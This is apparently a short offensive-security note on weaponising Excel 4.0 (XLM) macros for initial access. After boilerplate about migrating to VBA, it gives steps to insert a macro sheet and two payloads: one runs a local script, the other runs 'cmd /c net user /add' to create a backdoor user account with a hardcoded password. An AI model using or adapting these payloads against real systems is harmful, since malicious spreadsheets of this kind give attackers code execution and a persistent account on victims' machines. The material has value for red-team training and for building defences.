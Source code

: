 # XML Macro

***

Microsoft Excel still supports Excel 4.0 (XLM) macros, we encourage you to migrate them to the latest version of Microsoft Visual Basic for Applications (VBA). Migrating your macros lets you take advantage of the improvements to the VBA programming object model

### Create Payload

Right click on sheet --> insert --> MS Excel 4.0 Macro

```excel
=EXEC("E:\Initial-Access\Macro\screen.cmd")
=HALT()
```

```excel
=EXEC("cmd /c net user /add nooranet Aa123456")
=HALT()
```
